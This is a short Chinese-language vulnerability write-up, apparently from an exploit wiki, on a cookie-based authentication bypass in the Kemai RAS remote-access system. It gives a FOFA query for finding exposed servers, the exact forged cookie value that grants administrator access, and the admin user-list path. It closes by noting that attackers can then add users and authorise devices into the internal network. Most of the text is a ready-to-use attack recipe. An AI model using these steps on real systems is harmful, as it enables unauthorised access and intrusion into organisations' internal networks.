 # 科迈 RAS系统 Cookie验证越权漏洞

## 漏洞描述

科迈 RAS系统 存在Cookie验证越权，当 RAS_Admin_UserInfo_UserName 设置为 admin 时可访问后台

## 漏洞影响

<a-checkbox checked>科迈 RAS系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="科迈-RAS系统"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313112037353.png)



添加Cookie

```plain
RAS_Admin_UserInfo_UserName=admin
```



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313112037181.png)



访问 `/Server/CmxUser.php?pgid=UserList`



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313112037479.png)



获取后可以添加用户，授权登陆设备直接接入内网